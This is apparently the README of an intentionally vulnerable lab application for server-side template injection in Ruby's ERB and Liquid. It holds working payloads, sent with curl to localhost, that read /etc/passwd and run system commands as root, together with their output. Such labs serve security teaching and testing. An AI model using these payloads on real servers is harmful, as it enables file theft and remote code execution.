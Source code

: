 # Liquid ERB SSTI (Server-Side Template Injection)

SSTI vulnerability application for Liquid and ERB.

## Run

```
docker-compose build

docker-compose up -d

docker-compose down
```

## Attack

### ERB

```
<%= 7 * 7 %>

# curl 'http://127.0.0.1:4567/erb?name=%3c%25%3d%20%37%20%2a%20%37%20%25%3e'
hi 49
```

```
<%= File.open('/etc/passwd').read %>

# curl 'http://127.0.0.1:4567/erb?name=%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%65%74%63%2f%70%61%73%73%77%64%27%29%2e%72%65%61%64%20%25%3e'
hi root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...snip...)
```

```
<%= IO.popen('id').readlines() %>

# curl 'http://127.0.0.1:4567/erb?name=%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%69%64%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%25%3e'
hi ["uid=0(root) gid=0(root) groups=0(root)\n"]
```

### Liquid

```
{{ 7 | times: 7 }}

# curl 'http://127.0.0.1:4567/liquid?name=%7b%7b%20%37%20%7c%20%74%69%6d%65%73%3a%20%37%20%7d%7d'
hi 49
```
